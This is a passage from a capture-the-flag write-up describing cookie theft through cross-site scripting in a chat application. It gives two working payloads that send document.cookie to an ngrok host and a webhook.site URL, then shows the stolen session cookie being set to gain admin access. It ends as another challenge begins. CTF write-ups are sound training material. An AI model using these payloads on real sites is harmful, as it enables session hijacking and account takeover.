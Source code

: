 I started an ngrok server then hosted the php script

Here's the javascript payload

```js=
<script>new Image().src='http://4.tcp.eu.ngrok.io:15322/index.php?c='+document.cookie</script>
```

I submitted that in the chat application

And back on my web server I got the support user cookie
![](https://hackmd.io/_uploads/BJZVSQ9p2.png)

![](https://hackmd.io/_uploads/ByifHQqpn.png)

To login as the user I just changed my current session cookie to that

But I figured that that cookie is still mine

Damn!! I switced to another payload

```js
<img src=x onerror=this.src='https://webhook.site/ffc8b5af-72ff-40af-82a0-2aa305eead84/?'+document.cookie;>
```

On the webhook site I switch to, I got lots of request
![](https://hackmd.io/_uploads/ByxawXcph.png)

And eventually I found a cookie that isn't the same as mine
![](https://hackmd.io/_uploads/ryqeu7qa3.png)

I replaced that with mine

```js
document.cookie="session=eyJ1c2VybmFtZSI6ImFkbWluIn0.ZOynmw.oGpzuEW3SVgPjieWANzqQmPum94"
```

On refreshing the page I got the flag
![](https://hackmd.io/_uploads/S1Lh_m56h.png)

```
Flag: flag{the_ca$h_money_wa$_in$ide_you_the_whole_time} 
```

#### Milouuu
![](https://hackmd.io/_uploads/rJjCum96h.png)

Going over to the web url shows this
![](https://hackmd.io/_uploads/BJxzYXcp3.png)

Some cool cats pictures

Clicking on the `Oopsie` button shows this
![](https://hackmd.io/_uploads/HJILFmq6h.png)
![](https://hackmd.io/_uploads/Hk9NtQ9Tn.png)
